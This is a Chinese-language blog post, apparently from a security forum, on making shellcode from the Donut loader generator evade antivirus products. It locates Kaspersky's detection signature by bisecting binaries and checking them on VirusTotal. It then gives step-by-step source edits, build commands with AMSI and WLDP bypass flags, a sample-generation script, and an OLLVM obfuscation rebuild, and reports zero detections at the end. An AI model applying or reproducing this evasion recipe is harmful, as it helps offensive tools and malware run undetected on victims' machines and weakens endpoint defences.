

# Donut 生成的 shellcode 免杀 - 先知社区

Donut 生成的 shellcode 免杀

- - -

## 什么是 Donut

TheWover 的 Donut 项目：[https://github.com/TheWover/donut](https://github.com/TheWover/donut)

其可将 VBScript, JScript, EXE, DLL, .NET 文件转为位置无关的 shellcode。

其可将轻松将现有被杀的工具转换为 shellcode，再通过 shellcode 加载技术、白 + 黑技术绕过 AV。

为了免杀其 shellcode，需要先分析生成流程和组成部分。

然而 Donut 生成的 shellcode 已经被以 Kaspersky 为首的各类杀软检测到

特别的有些杀软会检测内存中 Donut 的 shellcode

对于 frp 这种需要一直运行的工具而言，运行一段时间后会因为内存检测而被杀掉进程

为了搞清楚杀软查杀特征，首先要做的就是分析 Donut 的 shellcode。

## shellcode 生成流程和组成

代码见：[https://github.com/TheWover/donut/blob/v1.0/donut.c#L1226](https://github.com/TheWover/donut/blob/v1.0/donut.c#L1226)

根据其代码，shellcode 主要由 3 部分组成：

1.  自定位汇编
2.  DONUT\_INSTANCE 结构数据
3.  LOADER

### LOADER

其中 LOADER 是一个函数，通过传入参数 DONUT\_INSTANCE 来加载 dotnet、pe、script 等

LOADER 入口为：[HANDLE DonutLoader(PDONUT\_INSTANCE inst)](https://github.com/TheWover/donut/blob/v1.0/loader/loader.c#L36)

LOADER 中分别实现了以下类型的内存加载

1.  [dotnet](https://github.com/TheWover/donut/blob/v1.0/loader/inmem_dotnet.c)
2.  [pe](https://github.com/TheWover/donut/blob/v1.0/loader/inmem_pe.c)
3.  [script](https://github.com/TheWover/donut/blob/v1.0/loader/script_dotnet.c)

### 自定位汇编

以 x86 为例，自定位汇编如下：

```bash
CALL label
...(DONUT_INSTANCE)
label:
POP ecx
POP edx
PUSH ecx
PUSH edx
...(LOADER)
```

自定位汇编的作用：

1.  通过 CALL 指令获取 DONUT\_INSTANCE 的地址，保存在 ecx 中
2.  调整栈，模拟调用`HANDLE DonutLoader(PDONUT_INSTANCE inst)`

## LOADER 的免杀

以 x86 为例，LOADER 的数据来自：[loader\_exe\_x86.h](https://github.com/TheWover/donut/blob/v1.0/loader_exe_x86.h)

### 二分法定位查杀特征

将 LOADER 保存为`data.bin`,通过二分法，利用 [https://www.virustotal.com](https://www.virustotal.com/) 扫描查杀结果

| 文件名 | 是否被杀 | 说明  |
| --- | --- | --- |
| data1.bin | 不杀  | data.bin 的前一半 |
| data2.bin | 杀   | data.bin 的后一半 |
| data21.bin | 不杀  | 依次类推 |
| data22.bin | 杀   |     |
| data221.bin | 不杀  |     |
| data222.bin | 杀   |     |
| data2221.bin | 不杀  |     |
| data2222.bin | 杀   |     |
| data22221.bin | 不杀  |     |
| data22222.bin | 杀   |     |
| data222221.bin | 不杀  |     |
| data222222.bin | 杀   |     |
| data2222221.bin | 不杀  |     |
| data2222222.bin | 杀   |

通过测试说明特征存在于`data2222222.bin`文件中，其内容 hex 如下

```bash
8B 54 24 0C 8B 44 24  04 56 8B F0 85 D2 74 13 57
8B 7C 24 10 2B F8 8A  0C 37 88 0E 46 83 EA 01 75
F5 5F 5E C3 8A 44 24  08 8B 4C 24 0C 57 8B 7C 24
08 F3 AA 8B 44 24 08  5F C3 8B 44 24 04 8B 4C 24
08 53 8A 10 84 D2 74  0E 8A 19 84 DB 74 08 3A D3
75 04 40 41 EB EC 0F  BE 00 0F BE 09 2B C1 5B C3
```

查杀结果：[链接](https://www.virustotal.com/gui/file/10f270e8aa8cce1554d82adce686278164571996408cef9f98d8e118f60c5221)

可以看到`Kaspersky`和`ZoneAlarm by Check Point`会报`HEUR:Trojan.Win64.Donut.a`

进一步分析，对应 Donut 的源代码在[clib.c](https://github.com/TheWover/donut/blob/v1.0/loader/script_dotnet.c)中的`Memcpy` `Memset` `_strcmp`三个函数

### 通过 inline 字免杀 Loader

由于杀软检测上述特征序列，所以将这三个函数通过 inline 方式嵌入调用者函数中

inline 嵌入后，LOADER 将不会有上述特征序列

#### 修改代码

修改`clib.c`代码

```bash
inline void *Memset (void *ptr, int value, uint32_t num)
// ...
inline void *Memcpy (void *destination, const void *source, uint32_t num)
// ...
inline int _strcmp(const char *str1, const char *str2) 
// ...
```

修改`loader.c`,直接包含`clib.c`

```bash
#include "loader.h"
#include "clib.c"   // <-- 添加这行
DWORD MainProc(PDONUT_INSTANCE inst);
// ...
```

#### 重新生成`loader_exe_x86.h`

安装 VS2022，打开`x86 Native Tools Command Prompt for VS 2022`，进入 Donut 源码目录

```bash
cl /nologo loader\exe2h\exe2h.c loader\exe2h\mmap-windows.c
cl -DBYPASS_AMSI_A -DBYPASS_WLDP_A -Zp8 -c -nologo -Gy -Os -O1 -Ob1 -GR- -EHa -Oi -GS- -Gs2147483647 -I include loader\loader.c hash.c encrypt.c loader\depack.c
link -nologo -order:@loader\order.txt -entry:DonutLoader -fixed -subsystem:console -nodefaultlib loader.obj hash.obj encrypt.obj depack.obj
exe2h.exe loader.exe
```

命令对应说明

1.  生成 exe2h.exe
2.  编译 LOADER
3.  链接 LOADER
4.  通过 exe2h.exe 将 loader.exe 转换为`loader_exe_x86.h`

再次将 LOADER 保存为文件，查杀结果为 0/58，查杀报告[链接](https://www.virustotal.com/gui/file/1cfa5ff012b9397c05d07a35fe163dad31f068a9bfd16ca30cc0aa23a8594c67)

至此 LOADER 的免杀就完成，但重新编译`donut.exe`后，再次生成 shellcode 查杀还有问题

`Kaspersky`和`ZoneAlarm by Check Point`会报`HEUR:Trojan.Win64.Donut.b`

特征名称发生了变化，从`HEUR:Trojan.Win64.Donut.a`变成了`HEUR:Trojan.Win64.Donut.b`

## 新特征的免杀

### 分析新特征

根据前文的分析，编写样本生成脚本

```bash
import re
from io import BytesIO
from pathlib import Path


def get_loader():
    data = Path('loader_exe_x86.h').read_text('ascii')
    return bytes.fromhex("".join(re.findall(r'0x([0-9a-f]{2})', data)))


def build_loader(data: bytes, noeip=False):
    writer = BytesIO()
    if noeip:
        writer.write(b'\x90')  # nop
    else:
        writer.write(b'\xe8')  # call $+datalen
    writer.write(int.to_bytes(len(data), 4, 'big'))
    writer.write(data)
    if noeip:
        writer.write(b'\x90' * 4)
    else:
        writer.write(b'\x59')  # pop ecx
        writer.write(b'\x5a')  # pop edx
        writer.write(b'\x51')  # push ecx
        writer.write(b'\x52')  # push edx
    writer.write(get_loader())  # LOADER
    return writer.getvalue()


Path('test.bin').write_bytes(get_loader())
Path('test1.bin').write_bytes(build_loader(b'\x90'))
Path('test2.bin').write_bytes(build_loader(b'\x90', noeip=True))
Path('test3.bin').write_bytes(build_loader(b'\x90' * 100))
Path('test4.bin').write_bytes(build_loader(b'\x90' * 100, noeip=True))
Path('test5.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024))
Path('test6.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024, noeip=True))
```

测试结果如下：

| 文件名 | 是否被杀 | 说明  | 报告  |
| --- | --- | --- | --- |
| test.bin | 否   | LOADER | [报告](https://www.virustotal.com/gui/file/1cfa5ff012b9397c05d07a35fe163dad31f068a9bfd16ca30cc0aa23a8594c67) |
| test1.bin | 是   | 自定位+nop+LOADER | [报告](https://www.virustotal.com/gui/file/997a3bb6e12e95589856a9a08838aade2d71c0ce6a3791c3e133ef7e3bf11d2f) |
| test2.bin | 否   | nop+nop+LOADER | [报告](https://www.virustotal.com/gui/file/60935703f50188822ec4bd1be8f180f907e2a8d9029a9a497c840d505c76274a) |
| test3.bin | 是   | 自定位+nop\*100+LOADER | [报告](https://www.virustotal.com/gui/file/3b8daae89c40c882127fdb135f5dcb33a82a90e56e06f274c6925184cf19551a) |
| test4.bin | 否   | nop+nop\*100+LOADER | [报告](https://www.virustotal.com/gui/file/abd15a20251d4671d5a88e160539c0ce819bbbf9902c6e759342bbc311b8cf33) |
| test5.bin | 否   | nop+nop*1024*1024+LOADER | [报告](https://www.virustotal.com/gui/file/349601ed9e550a881b5fb77768661dc294309f6a54a9d197d5aa531ee7f7882d) |
| test6.bin | 否   | nop+nop*1024*1024+LOADER | [报告](https://www.virustotal.com/gui/file/af1747277fe91e4a40352358d59b5e6bc60e67870f42f091cfcb8304ca748e4f) |

通过测试结果可以得到以下结论

1.  LOADER 不杀
2.  自定位 + LOADER 的组合会被杀，但当数据长度超过 1024\*1024 时，就不会被杀

### 新特征免杀思路

1.  强行将 data 数据 (DONUT\_INSTANCE 结构) 扩大到 1M
    1.  将会增加 shellcode 的体积，另外如果杀软更新特征检测距离还是会被杀
2.  修改自定位的汇编指令
    1.  x86 下只能通过 call 来自定位，即使变形，杀软也可以根据变形增加新的检测特征
3.  定位组合特征到底什么，再进行修改
    1.  如前文二分法，时间成本高，需要大量测试

有没有办法一劳永逸的解决组合特征问题？

考虑到新特征是自定位+LOADER 组合，在不修改自定位的情况下，只能想办法抹除 LOADER 的特征

在有源码的情况，想到可以考虑使用 OLLVM 混淆 LOADER

### OLLVM 混淆 LOADER

OLLVM 中控制流平坦化是一种常用的代码控制流混淆技术，它通过将程序的控制流程转换为一个平坦的结构，使得代码的执行路径变得难以预测和理解。控制流平坦化技术通常使用控制流图和状态机来表示程序的控制流程，然后通过一系列转换和重排操作，将程序的控制流程转换为一个平坦的结构。

详见：[https://github.com/obfuscator-llvm/obfuscator/wiki/Control-Flow-Flattening](https://github.com/obfuscator-llvm/obfuscator/wiki/Control-Flow-Flattening)

流程平坦特性通过`scrambling_key`随机种子来平坦代码块，这意味每次编译将产生不同的 LOADER，在下次杀软检测后只需要重新编译一次 LOADER 即可。

#### OLLVM 重新编译 LOADER

llvm 不支持`__stosb`宏，需要修改`clib.c`的`Memset`函数

```bash
inline void *Memset (void *ptr, int value, uint32_t num) {
    unsigned char *p = (unsigned char*)ptr;
    while(num--) {
      *p = (unsigned char)value;
      p++;
    }
    return ptr;
}
```

为了方便的使用 ollvm，我使用了[https://github.com/wwh1004/ollvm-16/releases](https://github.com/wwh1004/ollvm-16/releases)，作者将 llvm 升级到 16，并预编译了 clang-cl.exe

将 clang-cl.exe 放入 Donut 源码目录，安装 VS2022，打开`x86 Native Tools Command Prompt for VS 2022`，进入 Donut 源码目录

生成`loader_exe_x86.h`

```bash
.\clang-cl.exe --target=i686-w64-windows-msvc -mllvm -fla -mllvm -split -DBYPASS_AMSI_A -DBYPASS_WLDP_A -Zp8 -c -nologo -Gy -Os -O1 -Ob1 -GR- -EHa -Oi -GS- -Gs2147483647 -I include loader\loader.c hash.c encrypt.c loader\depack.c
link -nologo -order:@loader\order.txt -entry:DonutLoader -fixed -subsystem:console -nodefaultlib loader.obj hash.obj encrypt.obj depack.obj
.\exe2h.exe .\loader.exe
```

此时用 IDA 打开 loader.exe，可以看到如下图所示的流程图。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228155233-550eb63e-d60e-1.png)

生成`loader_exe_x64.h`

注意需要从 VS 目录复制 chkstk.obj 到 Donut 源码目录

```bash
.\clang-cl.exe --target=x86_64-w64-windows-msvc -mllvm -fla -mllvm -split -DBYPASS_AMSI_A -DBYPASS_WLDP_A -Zp8 -c -nologo -Gy -Os -O1 -Ob1 -GR- -EHa -Oi -GS- -Gs2147483647 -I include loader\loader.c hash.c encrypt.c loader\depack.c
link -nologo -order:@loader\order.txt -entry:DonutLoader -fixed -subsystem:console -nodefaultlib loader.obj hash.obj encrypt.obj depack.obj chkstk.obj
.\exe2h.exe .\loader.exe
```

生成包含 OLLVM 版 LOADER 的`donut.exe`

```bash
rc include/donut.rc
.\clang-cl.exe --target=i686-w64-windows-msvc -Zp8 -nologo -DDONUT_EXE -I include donut.c hash.c encrypt.c format.c loader\clib.c lib\aplib32.lib include/donut.res
```

再次使用`donut.exe`生成 shellcode，已经没有任何杀软查杀了
